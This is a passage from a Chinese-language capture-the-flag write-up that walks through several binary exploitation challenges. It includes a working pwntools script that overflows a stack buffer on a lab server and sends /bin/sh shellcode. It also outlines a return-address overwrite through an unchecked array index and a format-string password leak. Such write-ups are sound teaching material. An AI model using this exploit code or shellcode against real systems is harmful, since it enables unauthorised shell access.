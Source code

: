 什么都没开 :D

于是就可以覆盖掉返回值，执行放在栈上的shellcode。由于覆盖返回值难免会覆盖掉v3所以就在第二次读入的时候放入shellcode，shellcode的地址可以直接用泄露出来的地址。

给大佬献上exp：

```python
from pwn import *
debug = 0

if debug:
	context.log_level='debug'
	p = process('./main')
	gdb.attach(p,'b *0x804868f')
else:
    p = remote('10.112.108.77',2333)

p.recvuntil('please input your name:')
p.sendline('vivi')
p.recvuntil('Hello vivi\n')
p.recvline()
r=p.recvline()
addr = int(r[25:32],16)
#print addr
p.recvline()
p.recvuntil('Do you want to change your name?(1(yes) or 2(no)):')
p.sendline('1            '+p32(addr))
p.recvuntil('you have enough money,please input your new name:')
p.send('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')
p.interactive()
```

### Easycalc -- Ver0n1ca

这道题刚扔进ida就看到了一个叫hackhere的函数，仔细一看是弹一个shell，那八成是将返回值覆盖为此函数地址了。查看main函数有一个change number的功能而且没有检查index的大小，可以通过这个来直接修改返回值。查看文件保护措施：

```shell
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看到开了canary，但是应该只要不是异或型的就没关系。试了一下，发现的确没有检测到。

这道题没写exp，直接手输的index和number。

### Hardlogin -- Ver0n1ca

刚开始看到这道题还有一个web页面还以为是在逗我，没想到真的用上了hhh

首先这是一道blind pwn，想起来在tsctf新生赛的时候有一道easylogin很类似，于是就直接用了这道题的官方write up来dump二进制文件，然后放到ida里，发现有一个检查password，password是随机生成的，地址固定，可以直接通过格式化字符串读取。先用下面这个脚本看看执行 ls -al的效果。
